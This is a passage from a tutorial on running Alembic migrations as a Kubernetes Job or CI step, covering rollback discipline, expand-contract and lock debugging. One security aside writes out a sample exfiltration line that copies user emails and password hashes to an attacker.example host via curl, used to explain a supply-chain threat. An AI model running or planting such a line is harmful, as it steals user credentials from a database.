The migrate Job's `activeDeadlineSeconds: 600` (10 minutes) and the app Deployment's `readinessProbe` budget (`initialDelaySeconds + periodSeconds * failureThreshold`) are two halves of a *single deploy budget* — the orchestrator will kill whichever fires first, and the deploy halts on either. The production rule: `activeDeadlineSeconds` < `readinessProbe` total budget, so a stuck migration fails *before* the new pods start failing readiness (you want the failure to be "migrate Job timed out", not "new pods never became ready", because the former points at the migration and the latter points at the app — and you waste 20 minutes debugging the wrong half). Concretely: if the app's `readinessProbe` is `initialDelaySeconds=10, periodSeconds=5, failureThreshold=6` (40 seconds total), the migrate Job's `activeDeadlineSeconds` should be at most 30 seconds *if the migration is a single `ADD COLUMN NULL`*; for a backfill on a million-row table, raise the `readinessProbe` budget to match (`initialDelaySeconds=30, failureThreshold=12` = 90 seconds) rather than lowering the Job's timeout. The complementary discipline: set `spec.template.spec.terminationGracePeriodSeconds` on the migrate Job to less than `activeDeadlineSeconds` so a SIGTERM during a stuck `ALTER TABLE` actually terminates the Pod (PostgreSQL's `ALTER TABLE` does not check for SIGTERM mid-statement — only `lock_timeout` and `statement_timeout` interrupt it; set `op.execute("SET statement_timeout = '60s'")` at the top of `upgrade()` as the SQL-level kill switch). See [[02b-Backend-Foundations/Health-Checks-and-Probes]] for the probe-side budget.


Three reasons:

1. **Multi-instance races.** If three app instances start simultaneously, each runs `alembic upgrade head`. The first one acquires the `alembic_version` row's lock; the others block. With a transactional database, the migration completes and the others' `upgrade head` no-ops because the revision is already applied. With a non-transactional or badly-configured setup, the others race and corrupt. Either way, the migration is now an invisible side effect of starting the app — invisible to deploy tooling, invisible to monitoring, invisible to rollback tooling.

2. **Migration failure becomes app failure.** If the migration fails, the app does not start. The team's first signal of a problem is an app outage, not a migration failure. The migration should fail in the deploy step, where the deploy tooling can halt the rollout and the team sees a clear error.

3. **You cannot run a long migration in a startup hook.** Data migrations on large tables take minutes or hours. App startup is expected to be seconds. A migration in `lifespan` blocks startup until it completes — and the load balancer will kill the instance for not becoming healthy in time.

```python
# WRONG — see this whole lesson
@asynccontextmanager
async def lifespan(app: FastAPI):
 from alembic.config import Config
 from alembic import command
 command.upgrade(Config("alembic.ini"), "head") # ← do not do this
 yield
```

The correct shape: a separate deploy step (Kubernetes `Job`, GitHub Actions, pre-deploy hook) runs `alembic upgrade head` once, and the app instances start after.



The migration job is a single process. It might be:

- A Kubernetes `Job` or `CronJob` that runs to completion before the new `Deployment` rolls out (our example below).
- A pre-deploy hook in your platform (Render, Heroku, etc.).
- A step in your CI pipeline that connects to the database with a short-lived credential (our example below).
- An SSH step on a bastion host that runs `alembic upgrade head`.

What it is *not*: a thing the app does when it boots.

**What happens inside `alembic upgrade head`**

Alembic's `upgrade head` command loads `alembic.ini`, instantiates the `ScriptDirectory` (which walks `alembic/versions/` and parses each migration's `revision`, `down_revision`, `depends_on`, and `branch_labels` headers), and builds a DAG of revisions. It opens a connection to the database (via the URL in `alembic.ini` or in `env.py`) and queries the `alembic_version` table — a one-row table whose single `version_num` column holds the current revision ID. It computes the path from the current revision to `head` (the leaves of the DAG — there can be multiple heads if branches diverged, in which case `alembic upgrade head` errors with `Multiple heads are present; please specify the target revision or use alembic merge`). For each migration in the path, Alembic begins a transaction (unless `transaction_per_migration = False` in `alembic.ini`), imports the migration module, calls `upgrade()`, and on success updates `alembic_version.version_num` to the new revision and commits. On failure, the transaction rolls back — `alembic_version` is unchanged, and the migration's partial work is undone. The transactional boundary is what makes `alembic upgrade head` safe to retry: a failed migration leaves the database in the pre-migration state, and a retry runs the same migration from scratch. The exception is `op.execute()` calls that issue DDL outside the transaction — PostgreSQL is one of the few databases where DDL *is* transactional (DDL statements run inside the surrounding transaction and roll back with it), so the boundary holds; on MySQL or Oracle, DDL commits implicitly and the boundary is broken, which is why the expand-contract pattern is PostgreSQL-first. The `alembic_version` table itself is created on the first `alembic stamp head` or `alembic upgrade head` against a fresh database; on subsequent runs it already exists and is queried at the top of the upgrade.


### The Kubernetes Job: `k8s/migrate-job.yaml`

```yaml
apiVersion: batch/v1
kind: Job
metadata:
 name: boardly-migrate-{{ .Release.Revision }}
 annotations:
 "helm.sh/hook": pre-upgrade,pre-install
 "helm.sh/hook-weight": "-5"
 "helm.sh/hook-delete-policy": before-hook-creation
```

**What it does:** Defines a Kubernetes `Job` (not a `Deployment`) that runs `alembic upgrade head` and exits.

**Line by line:**

- `apiVersion: batch/v1` — the Kubernetes API for batch jobs.
- `kind: Job` — a `Job` runs to completion; a `Deployment` runs forever. We want the migration to run once, complete, and exit. A `Job` is the right kind.
- `name: boardly-migrate-{{ .Release.Revision }}` — the job name includes the Helm release revision, so each `helm upgrade` creates a new `Job` (rather than updating an existing one).
- `annotations: "helm.sh/hook": pre-upgrade,pre-install` — tells Helm to run this Job *before* the main `Deployment` is upgraded or installed. The annotation is what makes the Job a pre-deploy hook.
- `"helm.sh/hook-weight": "-5"` — Helm runs hooks in weight order. A negative weight runs before the main resources (which have weight 0). The migration runs before the new `Deployment` rolls out.
- `"helm.sh/hook-delete-policy": before-hook-creation` — delete the previous Job before creating the new one. This avoids name collisions.

```yaml
spec:
 backoffLimit: 2
 activeDeadlineSeconds: 600
 template:
 spec:
 restartPolicy: Never
```

**What it does:** Configures the job's failure behavior.

- `backoffLimit: 2` — retry the job up to 2 times on failure. After 3 attempts (1 + 2 retries), the job is marked failed.
- `activeDeadlineSeconds: 600` — kill the job if it has not completed in 10 minutes. This catches stuck migrations — e.g. an `ALTER TABLE` waiting on a long-held lock.
- `restartPolicy: Never` — do not restart the container inside the pod; let the job's `backoffLimit` handle retries at the pod level. (`OnFailure` would also work and would not create new pods.)

```yaml
 containers:
 - name: migrate
 image: ghcr.io/boardly/app:{{ .Values.image.tag }}
 command: ["uv", "run", "alembic", "upgrade", "head"]
 env:
 - name: BOARDLY_DATABASE_URL
 valueFrom:
 secretKeyRef:
 name: boardly-db
 key: url
 resources:
 requests: { cpu: "250m", memory: "256Mi" }
 limits: { cpu: "1", memory: "512Mi" }
```

**Line by line:**

- `image: ghcr.io/boardly/app:{{ .Values.image.tag }}` — uses the *same* image as the app. This is critical: the migration must run the same code as the app, because `env.py` imports the app's models. If you used a different image, the model definitions might differ from what is deployed.
- `command: ["uv", "run", "alembic", "upgrade", "head"]` — the actual migration command. `uv run` ensures we use the project's virtualenv.
- `env: BOARDLY_DATABASE_URL` — the database URL, read from a Kubernetes secret. Never hardcode it in the image or the YAML.
- `resources` — requests and limits. Migrations are typically CPU-light and memory-light; 250m / 256Mi is plenty. Limit CPU to prevent a runaway migration from starving the rest of the cluster.

**Danger — The migrate Job's secret is the database's most privileged credential — scope it narrowly, rotate it, audit it**

The `BOARDLY_DATABASE_URL` secret handed to the migrate Job is the *DDL* role — the role with `CREATE`, `ALTER`, `DROP` on the `public` schema. This is strictly more privilege than the app's runtime role (which has only `SELECT/INSERT/UPDATE/DELETE`), and the gap is the blast radius of a leak. Three production defenses, in order of importance. (1) **Scope the secret to the Job, not the Deployment.** The `valueFrom.secretKeyRef.name: boardly-db` should be mounted *only* on the migrate Job's pod spec; the app Deployment should reference a *different* secret (`boardly-app-db`) backed by a *different* PostgreSQL role with no DDL. The Helm chart should template these as separate `Secret` resources so a misconfigured `helm install` cannot accidentally give the app the DDL role. (2) **Rotate the migrate secret on every deploy.** The migrate Job runs once per deploy; the credential has no business being valid between deploys. Use a short-lived credential (PostgreSQL roles with `VALID UNTIL '2026-10-20 12:00:00'`, or a Vault-dynamic credential with a 1-hour TTL) so a leaked secret from one deploy is dead before the next. (3) **Audit `pg_stat_activity` for the DDL role outside a deploy window.** The query `SELECT pid, application_name, query_start, query FROM pg_stat_activity WHERE usename = 'boardly_migrate' AND query_start < now() - interval '1 minute'` should return zero rows outside a deploy; if it returns a row, the secret has been read by something other than the migrate Job and you have an incident. Log this query's output to your SIEM on a 5-minute cron — see [[13-Performance-and-Observability/Structured-Logging-and-Request-IDs]] for the structured-log shape. The audit *is* the detection; the role split is the prevention. See [[08-PostgreSQL/Roles-Permissions-Security]] for the role DDL.


### The GitHub Actions workflow: `.github/workflows/deploy.yml`

```yaml
name: deploy
on:
 push:
 branches: [main]

jobs:
 migrate:
 runs-on: ubuntu-latest
 environment: production
 steps:
 - uses: actions/checkout@v4
 - uses: astral-sh/setup-uv@v3
 - run: uv sync --frozen
 - name: Run migrations
 env:
 BOARDLY_DATABASE_URL: ${{ secrets.BOARDLY_DATABASE_URL }}
 run: uv run alembic upgrade head
```

**What it does:** Defines a GitHub Actions job that runs the migration before the deploy job starts.

**Line by line:**

- `on: push: branches: [main]` — the workflow runs on every push to `main`. (In a real system, you might gate this on a tag or a manual dispatch.)
- `migrate` job — the migration step.
- `runs-on: ubuntu-latest` — the runner image.
- `environment: production` — the GitHub environment. Environments can have required reviewers, protection rules, and environment-specific secrets. Marking this `production` means the `BOARDLY_DATABASE_URL` secret comes from the production environment, not from the repo's secrets.
- `uses: actions/checkout@v4` — clone the repo.
- `uses: astral-sh/setup-uv@v3` — install `uv` (the official action from Astral, the makers of `uv`).
- `run: uv sync --frozen` — install the project's dependencies from the lockfile. `--frozen` means "do not update the lockfile; fail if it is out of date." This ensures the migration runs against exactly the same dependency versions as the app.
- `BOARDLY_DATABASE_URL: ${{ secrets.BOARDLY_DATABASE_URL }}` — the database URL, stored as a GitHub Actions secret.
- `run: uv run alembic upgrade head` — the actual migration command.

```yaml
 deploy:
 needs: migrate # ← the deploy does not start until the migration succeeds
 runs-on: ubuntu-latest
 environment: production
 steps:
 - uses: actions/checkout@v4
 - name: Build and push image
 run: |
 docker build -t ghcr.io/boardly/app:${{ github.sha }} .
 docker push ghcr.io/boardly/app:${{ github.sha }}
 - name: Roll out to Kubernetes
 run: |
 helm upgrade --install boardly ./charts/boardly \
 --set image.tag=${{ github.sha }} \
 --wait --timeout 5m
 - name: Verify
 run: curl -fsS https://boardly.example.com/healthz | grep ok
```

**What it does:** Defines the deploy job that runs after the migration succeeds.

**Line by line:**

- `needs: migrate` — the key line. The deploy does not start until the migrate job succeeds. If the migration fails, the deploy does not run, and the production database and app are unchanged.
- `Build and push image` — builds the Docker image and pushes it to the registry with the git SHA as the tag.
- `helm upgrade --install boardly ... --wait --timeout 5m` — rolls out the new version. `--wait` makes Helm wait for the rollout to complete; `--timeout 5m` fails if it takes longer than 5 minutes. The pre-deploy hook (the `Job` from above) runs as part of the `helm upgrade`.
- `Verify` — a smoke test that the new version is serving traffic. If this fails, you know the deploy is broken — but the migration has already run. (The fix is to roll back the deploy and roll back the migration, in that order. See [[16-Deployment-and-DevOps/Migration-Ordering-and-Rollback]] for the rollback discipline.)

**Warning — Debugging the `needs:` gate when the deploy "didn't run"**

The symptom: the `migrate` job shows green in the GitHub Actions UI, but the `deploy` job shows "skipped" — and you cannot tell whether the gate worked or the deploy was never triggered. The GitHub Actions UI hides the causal link in a small "needs" tooltip on the deploy job's node; the CLI is clearer. `uv run --with gh gh run view <run-id> --log` prints every step's output; `uv run --with gh gh run view <run-id> --log-failed` prints only failed steps. The three failure modes, in order of frequency. (1) **The `migrate` job's `environment: production` has a required reviewer who hasn't approved.** The UI shows the job as "waiting" with a small "Review deployments" button; the CLI shows `Waiting for approval on environment production`. The fix is the approval, not a re-run. (2) **The `migrate` job succeeded but the `deploy` job's `environment: production` has a *different* required reviewer.** The two environments can have different protection rules; the `migrate` approval does not auto-approve the `deploy`. (3) **The `migrate` job's `BOARDLY_DATABASE_URL` secret is missing from the `production` environment.** The job fails with `Required secret BOARDLY_DATABASE_URL is not set`, but the failure is on the `migrate` job's step, not the `deploy` job — and the `deploy` job shows "skipped" because `needs: migrate` was not satisfied. The diagnostic: `uv run --with gh gh secret list --env production` should list `BOARDLY_DATABASE_URL`; if it does not, the secret was set on the repo (not the environment) and the `environment: production` line in the workflow is silently ignoring it. See [[16-Deployment-and-DevOps/GitHub-Actions-CI]] for the protection-rules configuration.


**Why both a Kubernetes Job and a GitHub Actions step?**

They do different things. The GitHub Actions step runs `alembic upgrade head` from the runner — it connects to the database over the public internet (or a VPN), runs the migration, and exits. The Kubernetes `Job` runs `alembic upgrade head` from inside the cluster — it has access to the database via a private network, runs as part of the `helm upgrade`, and is gated by Helm hooks. **You only need one.** Pick the one that fits your platform: GitHub Actions if you are on a managed platform that does not give you cluster access; Kubernetes Job if you are running your own cluster.


### Rollback

The rollback discipline is: roll back the app first, then roll back the migration. The order matters because the new code may rely on the new schema — rolling back the schema first breaks the new code. Rolling back the app first means the old code is running, and the old code is safe against the new schema (because of the expand-contract pattern). Then rolling back the migration is safe.

For the expand-contract pattern, each step's `downgrade()` exists and is symmetric — so rolling back M2 to M1 (set `slug` back to nullable) is safe, then rolling back to B (no-op), then to D1, then to M1 (drop `slug`), is safe at each step.

**The rollback drill is the only way to know the rollback works**

The lesson's rollback discipline ("app first, then migration") is a *plan*, not a *verified capability* — and the two diverge in production with depressing regularity. The `downgrade()` that passed the CI round-trip test (`alembic upgrade head && alembic downgrade -1 && alembic upgrade head`) on a fresh ephemeral database fails on the production database because the production data has rows the test fixture did not (a `DELETE CASCADE` the test did not exercise, a `CHECK` constraint added by a later migration, a foreign key from a table the test did not create). The production discipline is the *rollback drill*: once a quarter, in staging, pick a recent deploy, run the full rollback path (`helm rollback boardly <prev-revision>`, `uv run alembic downgrade -1`, verify the app is healthy, then `uv run alembic upgrade head` to restore), and time it. The drill surfaces the asymmetries that the CI round-trip cannot (because CI runs against an empty database) and the timeouts that the runbook assumes (`helm rollback` takes 90 seconds on a 5-replica Deployment, not the 5 seconds the runbook claims). The drill is the *only* way to know the rollback works; the plan is the *intention* to roll back. Run the drill in staging, not production — staging's data is a copy of production's, so the asymmetries surface without the production blast radius. See [[12-Testing-and-Quality/Testing-Database-Logic]] for the test-side equivalent (the "migration round-trip on a production-shaped fixture" test).


**Danger — The one-way door.**

If the migration is a one-way door (an irreversible data migration — see [[Data-Migrations-Safely]]), the rollback stops at that migration. You cannot roll back past a one-way door. The discipline is: ship one-way-door migrations only after a release cycle of confidence. The release cycle is the insurance.


**Student asks: What if the migration fails halfway through the deploy?**

The failure mode and the recovery are different at each step. **(a) Migrate Job fails (e.g. `alembic upgrade head` raises `OperationalError`).** The Job's Pod exits non-zero. The `needs: migrate` gate on the deploy job is not satisfied — the deploy does not roll out. The old `Deployment` keeps serving on the old schema. **Recovery:** the database is in a half-applied state if `alembic` was interrupted mid-migration; in practice each migration runs in a transaction so it is rolled back automatically, and `alembic_version` is unchanged. Run `alembic current` to confirm the revision head, run `alembic downgrade -1` only if the revision head moved, fix the migration (e.g. the column does not exist because M1 of the expand-contract was not shipped first), and re-run the Job. **(b) Deploy job fails (e.g. new code crashes on startup).** The Deployment rolls out, the new Pod fails its `readinessProbe`, the Rollout halts at the failed replica. The migration has *already run*. **Recovery:** roll back the Deployment to the previous image (`helm rollback` or `kubectl rollout undo deploy/boardly`), confirm the old code is serving traffic, *then* decide whether to roll back the migration. Rolling back the migration first breaks the new code — but you already rolled back the code, so this is now safe. **(c) Verify step fails (e.g. the smoke test 4xx's).** The migration has run, the new code is serving, but it is not behaving correctly. **Recovery:** same as (b) — roll back the app first, then investigate. The reason rollback-discipline says "app first, then migration" is exactly this: the migration is durable state, the app is ephemeral state. Undo ephemeral first; undo durable only if you must.


**What happens inside the migration Job's retry on failure**

When the migrate Job's Pod exits non-zero (the migration raised), Kubernetes' `Job` controller waits a back-off period (default exponential, starting at 1 second, capped at 5 minutes by default) and creates a new Pod. The new Pod starts from a clean container — `uv run alembic upgrade head` runs from the beginning. The `alembic_version` table is unchanged (the failed migration's transaction rolled back); the new Pod queries `alembic_version`, sees the same pre-migration revision, computes the same path, and runs the same migration. The retry is safe *because* of the transactional boundary — the failed migration left no partial state, so the retry is idempotent. The `backoffLimit: 2` in the Job spec means up to 3 attempts (1 initial + 2 retries); after the third failure, the Job is marked failed and the deploy halts. The discipline: never raise `backoffLimit` to "make the migration eventually succeed" — if the migration fails 3 times, it is failing for a reason (a lock conflict, a missing dependency, a bug in the migration) and retrying will not fix it. Read the Pod logs (`kubectl logs job/boardly-migrate-...`), find the root cause, fix it, and re-trigger the deploy. The `activeDeadlineSeconds: 600` (10 minutes) is the upper bound — if the migration hangs (e.g. waiting on an `AccessExclusiveLock` held by a long-running transaction), the Pod is killed at 10 minutes and the back-off/retry cycle starts. The combination of `activeDeadlineSeconds` (catches hangs) + `backoffLimit` (catches transient failures) + the transactional boundary (makes retries safe) is the safety net that lets a migration fail without leaving the database in a half-applied state — as long as the migration respects the transactional boundary (no `op.execute("COMMIT")` inside `upgrade()`, no `transaction_per_migration = False` without a deliberate reason).


**Student asks: how does blue-green deploy interact with the expand-contract migration pattern?**

The two patterns compose — but you have to be careful about the order. In a blue-green deploy you have two complete stacks (blue = current, green = next) running simultaneously, with a load balancer switching traffic between them. The expand-contract migration pattern is *multi-step*, with quiet periods between steps. The intersection: blue must keep working *until green takes all traffic*. The rule is: the schema must be compatible with *both* blue and green for the entire overlap window. Practically: ship M1 (the expand, e.g. add nullable `slug`) before flipping the load balancer to green; deploy green (D1) but keep blue running on the old schema in case of rollback; run B (the backfill) with both stacks running; deploy green-only code (D2) that reads `slug`; flip the load balancer fully to green; tear down blue; ship M2 (the contract, e.g. NOT NULL) after blue is gone. The pattern fails the moment you do M2 before blue is gone — blue's old code may still be inserting without `slug` and the M2 NOT NULL constraint rejects those inserts, taking blue down. The general rule: blue-green is a deploy-time strategy; expand-contract is a schema-evolution strategy. They are orthogonal and compose, but you must compose them carefully — the schema's compatibility window must cover the entire blue-green overlap.


## Execution Trace

A full deploy of the `slug` change via the expand-contract pattern:

1. **Developer** writes migrations M1 (add `slug`), B (backfill), M2 (NOT NULL). Reviews each. Pushes to `main`.
2. **CI** runs the test suite, including the `alembic upgrade head && alembic downgrade -1 && alembic upgrade head` round-trip on a fresh ephemeral database. CI passes.
3. **Deploy pipeline** runs the `migrate` job: `alembic upgrade head`. This applies M1 (and B and M2, since the deploy job runs `upgrade head` and the database was at `0002`). The database is now at `0005_make_slug_not_null`.
4. Wait — that is wrong for the expand-contract pattern. Each step is supposed to be a *separate* deploy. The right way is to merge M1 alone, deploy (which migrates to `0003`), then merge D1 (the code change), deploy, then merge B alone, deploy (which migrates to `0004`), then merge D2, deploy, then merge M2, deploy (which migrates to `0005`). Each step is a separate PR and a separate deploy.
5. **App instances** roll out (the `deploy` job's Helm step). The Helm `pre-upgrade` hook (the Kubernetes `Job`) runs the migration first; then the new `Deployment` rolls out.
6. **Load balancer** shifts traffic to the new instances. Health check (`/healthz`) passes.
7. **Verify step** runs `curl https://boardly.example.com/healthz` — confirms the new version is serving.

If anything fails — the migration errors, the new code crashes, the health check fails — the pipeline halts. The rollback discipline (above) tells you how to recover.



## Common Mistakes

### Mistake 1: `alembic upgrade head` in the lifespan

Covered above and in [[Alembic-Setup-and-Workflow]]. Run migrations as a deploy step.

### Mistake 2: Rolling the schema and the code in one deploy

```python
# migration
def upgrade():
 op.add_column("projects", sa.Column("slug", sa.String(120), nullable=False))
```

The migration adds `slug` as NOT NULL with no default. The deploy applies the migration *and* rolls out new code that writes `slug`. Old code (still running) does `INSERT INTO projects (title, ...) VALUES (...)` — without `slug`. The insert fails with `NotNullViolation`. The fix is the expand-contract pattern.

### Mistake 3: No safety check before `SET NOT NULL`

```python
def upgrade():
 op.alter_column("projects", "slug", existing_type=sa.String(120), nullable=False)
```

If any row has `slug IS NULL` (because the backfill was incomplete or because new code has a bug), this fails with a cryptic `NotNullViolation`. The safety check (a `COUNT(*)` first, with a clear error message) catches the bug before the alter.

### Mistake 4: Multi-instance migration races

Three app instances start simultaneously; each runs `alembic upgrade head`. The fix is to run the migration from a single process — a Kubernetes `Job` or a CI step. The app instances never run migrations.

### Mistake 5: The migration Job uses a different image than the app

The migration Job's `image:` field points at a stale image that does not have the latest models. The `env.py` imports the old models; the migration is wrong. Always use the same image as the app, with the same git SHA tag.

**Danger — A divergent migrate-image is a supply-chain attack surface, not just a correctness bug**

The lesson frames Mistake 5 as a correctness bug ("the migration is wrong because `env.py` imports old models"). The senior security reading is worse: the migrate Job runs with the DDL role, and `env.py` is Python code that can `import` anything on `sys.path` — including a malicious package planted in the image. If the migrate image is built from a different `Dockerfile` or a different base than the app image (a common shortcut: "the migrate image is just `python:3.12-slim` with alembic installed"), an attacker who can push to the migrate image's registry path can ship an `env.py` that does `op.execute("COPY (SELECT email, password_hash FROM users) TO PROGRAM 'curl https://attacker.example.com/collect -d @-'")` under the DDL role — a data-exfiltration vector that bypasses the app's runtime role entirely (the app role has no `EXECUTE` on `COPY`; the DDL role does). The defense is *image provenance parity*: the migrate image and the app image must be the *same* OCI digest (`image: ghcr.io/boardly/app@sha256:<digest>`, not `:{{ .Values.image.tag }}` which can be re-tagged), built from the *same* `Dockerfile` in the *same* CI job, signed with the *same* cosign key, and verified by the cluster's admission controller (Kyverno or OPA Gatekeeper enforcing that `spec.template.spec.containers[].image` matches a cosign signature). The audit: `crane digest ghcr.io/boardly/app:{{ .Values.image.tag }}` should return the same digest for both the migrate Job's `image:` and the app Deployment's `image:`; a mismatch is either a rebuild (re-pull) or a supply-chain incident. See [[16-Deployment-and-DevOps/Docker-Multi-Stage-Non-Root]] for the multi-stage build that makes the digest reproducible, and [[11-Authentication-and-Security/Threat-Model-First]] for the supply-chain threat model.


### Mistake 6: Long migration with no `activeDeadlineSeconds`

A migration that hangs waiting on a lock (because the app is holding a long transaction) runs forever. The Kubernetes `Job` has no `activeDeadlineSeconds`, so it runs until the cluster kills it. Set a timeout.

**Warning — Diagnosing a stuck migrate Job: `pg_stat_activity` + `pg_locks` are the only signals that matter**

When the migrate Job hangs past `activeDeadlineSeconds` and retries, the Alembic log line `INFO [alembic.runtime.migration] Running upgrade ... -> <revision>` is the *last* line — there is no progress indication, no "X% done", no SQL echo. The two PostgreSQL system views are the diagnostic. `SELECT pid, state, wait_event_type, wait_event, query_start, substring(query, 1, 100) AS query FROM pg_stat_activity WHERE application_name = 'alembic' OR query ILIKE '%ALTER%' OR query ILIKE '%CREATE INDEX%'` shows the migrate Job's PID and whether it is `active` (running the SQL) or `idle in transaction` (waiting on a lock). `SELECT pid, mode, granted, relation::regclass AS rel FROM pg_locks WHERE granted = false` shows every *waiting* lock — the migrate Job's `AccessExclusiveLock` shows up here with `granted = false` and a `mode` that conflicts with the blocker. The blocker is in `pg_stat_activity` with `state = 'idle in transaction'` — a long-running app transaction holding the lock the migration needs. The fix is `SELECT pg_terminate_backend(<blocker_pid>);` (which the lesson's Failure 1 walks through); the *prevention* is `op.execute("SET lock_timeout = '3s'")` at the top of `upgrade()` so the migration fails fast on a lock conflict instead of hanging for 10 minutes. The discipline: every migration's `upgrade()` should begin with `SET lock_timeout` and `SET statement_timeout` — they are the SQL-level kill switches that `activeDeadlineSeconds` cannot reach (the Pod-kill at `activeDeadlineSeconds` sends SIGTERM, which PostgreSQL's `ALTER TABLE` does not check mid-statement). See [[06-SQL-Fundamentals/Transactions-Isolation-Locks]] for the lock-mode compatibility matrix.


### Mistake 7: Verifying the deploy but not the migration

```yaml
 - name: Verify
 run: curl -fsS https://boardly.example.com/healthz | grep ok
```

This checks the app is healthy, not that the migration ran. Add a verification step:

```yaml
 - name: Verify migration
 run: |
 version=$(uv run alembic current 2>&1 | awk '/^[0-9a-f]/{print $1}')
 [ "$version" = "0005_make_slug_not_null" ] || exit 1
```

This confirms the database is at the expected revision.

### Mistake 8: No rollback plan

A migration that ships without a rollback plan is a phone call at 2am. Write the `downgrade()` for every migration. Test it in CI (`alembic downgrade -1` after `alembic upgrade head`). Know what the rollback steps are for each deploy.

**The rollback command goes in the PR description, not the runbook**

The lesson says "Write the `downgrade()` for every migration. Test it in CI. Know what the rollback steps are." The production discipline makes this concrete: every migration PR's description must include a `## Rollback` section with the exact command (`uv run alembic downgrade -1` for a single revision; `uv run alembic downgrade <revision-id>` for a multi-step; `helm rollback boardly <prev-revision>` for the app) and the expected duration ("downgrade takes ~5 s; helm rollback takes ~90 s"). The reason it goes in the PR and not a separate runbook: the PR is the *review* surface (the DBA approves the migration *and* the rollback in the same read), and the PR is the *deploy* surface (the on-call opens the merged PR to find the rollback command at 3 AM, not a wiki page that may be out of date). The CI lint that enforces this: a check that parses the PR body for a `## Rollback` heading and fails if it is missing — the same pattern as the `## Changes` and `## Testing` headings most teams already require. The deeper discipline: a `## Rollout plan` section that lists the deploy steps in order ("1. migrate Job runs 0006; 2. helm upgrade rolls out new Deployment; 3. smoke test hits /healthz") so the on-call can follow the plan backward to roll back. See [[23-Templates/Lesson-Template]] for the PR template that bakes these sections in.


## Engineering Trade-Offs

### One big migration vs. expand-contract

- **One big migration** is faster — fewer deploys, fewer PRs. It works when the migration is reversible, the data is small, and you can take downtime. For dev and staging, this is fine.
- **Expand-contract** is slower — five steps instead of one. It works when the migration is irreversible, the data is large, and you cannot take downtime. For production, this is the standard.

### Migration Job in Kubernetes vs. CI step

- **Kubernetes Job** has private network access to the database, runs as part of the deploy, and is gated by Helm hooks. Use it when you run your own cluster.
- **CI step** runs from a runner, connects over the public internet (or a VPN), and is gated by the pipeline's job dependencies. Use it when you are on a managed platform.

### Blocking vs. non-blocking migrations

A blocking migration (one that holds a lock the app needs) stalls the app. PostgreSQL's `ALTER TABLE ... ADD COLUMN ... NULL` is non-blocking — it does not rewrite the table. `ALTER TABLE ... ADD COLUMN ... NOT NULL` *with* a `DEFAULT` is non-blocking on PostgreSQL 11+ (it only updates the catalog). `ALTER TABLE ... ALTER COLUMN ... TYPE` that requires a rewrite is blocking. For blocking operations, consider `pg_repack` or the `NOT VALID` + `VALIDATE CONSTRAINT` two-step pattern for check constraints.

### The "big bang" deploy

For a brand-new feature with no live data, you can ship the schema and the code in one deploy. There is nothing to be backwards-compatible against. The moment you have a single row of production data, expand-contract.

**The "big bang" window closes the moment you have one row of customer data**

The lesson's "big bang" trade-off ("for a brand-new feature with no live data, ship in one deploy") is correct but the *window* is narrower than teams assume. The window closes at the first row of customer data — and on a new feature, that row appears within hours of launch (the first user, the first tenant, the first audit-log entry). The production discipline: treat "big bang" as a *deploy-time* decision, not a *design-time* one. Design every migration as if it were expand-contract (five steps, each reversible); ship it as big-bang only if, at deploy time, you can prove the table is empty (`SELECT count(*) FROM <table>` returns 0 against the production read replica). The proof has to be *live* — the migrate Job's `upgrade()` can begin with an `assert_empty()` helper that raises if the table has rows, so a big-bang migration run against a table that has silently acquired data fails loudly instead of corrupting. The audit: `SELECT relname, n_live_tup FROM pg_stat_user_tables WHERE relname = '<table>'` shows the live row count without a `COUNT(*)` scan; if `n_live_tup > 0`, you are past the big-bang window and must ship expand-contract. See [[09-Alembic-Migrations/Data-Migrations-Safely]] for the backfill that the expand-contract pattern requires once the window has closed.


## When This Breaks: A Senior Engineer's Debugging Guide

Migrations fail. Sometimes they fail because the migration is wrong; sometimes they fail because the database is in a state the migration did not expect; sometimes they fail because a long-running transaction is holding a lock the migration needs. The senior engineer's discipline is to read the failure mode before reaching for a fix. This section walks through five production-grade migration failures and the recovery for each.

### Failure 1: Locked table — the migration hangs on `ALTER TABLE`

**Symptom.** The migrate Job's Pod logs show `INFO [alembic.runtime.migration] Running upgrade ... -> 0006_add_index_on_email` and then hang — no further log lines, no error. After `activeDeadlineSeconds: 600` (10 minutes), Kubernetes kills the Pod; the Job retries (backoff), the new Pod hangs at the same line; after `backoffLimit: 2`, the Job is marked failed; the deploy halts.

**Diagnosis.** The migration is waiting on an `AccessExclusiveLock` on the `users` table — a lock that conflicts with every other lock on the table, including the `AccessShareLock` that even a `SELECT` takes. A long-running transaction in the app (an open `Session` that has not committed, a `SELECT ... FOR UPDATE` held by a long request, a `pg_dump` running against the table) is holding a lock that blocks the `ALTER TABLE`. PostgreSQL's `ALTER TABLE` waits silently — there is no progress indication, no timeout by default. The 10-minute `activeDeadlineSeconds` is the only signal.

**The diagnostic.** On a fresh `psql` connection (from a debug Pod or a bastion), run:
```sql
SELECT pid, state, wait_event_type, wait_event,
       query_start, substring(query, 1, 80) AS query
FROM pg_stat_activity
WHERE query ILIKE '%ALTER TABLE%' OR backend_type = 'client backend';
```
This shows the `ALTER TABLE`'s PID and what it is waiting on. To find the blocker:
```sql
SELECT pid, mode, granted, query
FROM pg_locks
WHERE relation = 'users'::regclass;
```
The blocker is the row with `granted = true` and a `mode` that conflicts with `AccessExclusiveLock` (typically `AccessShareLock`, `RowExclusiveLock`, or another `AccessExclusiveLock`). Kill the blocker with `SELECT pg_terminate_backend(<pid>);` — the `ALTER TABLE` then acquires its lock and proceeds. The defense for next time: set `lock_timeout = '3s'` in the migration (`op.execute("SET lock_timeout = '3s'")` at the top of `upgrade()`) so the migration fails fast on a lock conflict instead of hanging for 10 minutes — and the failure message says "canceling statement due to lock timeout", which points you at the lock conflict immediately.

### Failure 2: Failed migration — the migration raises mid-way

**Symptom.** The migrate Job's Pod logs show `INFO [alembic.runtime.migration] Running upgrade ... -> 0006_add_index_on_email` and then `sqlalchemy.exc.ProgrammingError: (psycopg2.errors.DuplicateTable) relation "ix_users_email" already exists`. The Pod exits non-zero; the Job retries; the retry sees the same error (the index already exists from a previous failed attempt).

**Diagnosis.** On PostgreSQL, DDL is transactional — the failed migration's transaction rolled back, the index was *not* created, and `alembic_version` is unchanged. The error `relation "ix_users_email" already exists` means the index *does* exist — which means a *previous* migration attempt (before the transactional boundary was in place, or on a non-transactional database, or because someone ran a manual `CREATE INDEX` outside Alembic) left the index behind. The migration is now in an inconsistent state: the index exists, but `alembic_version` says the migration did not run.

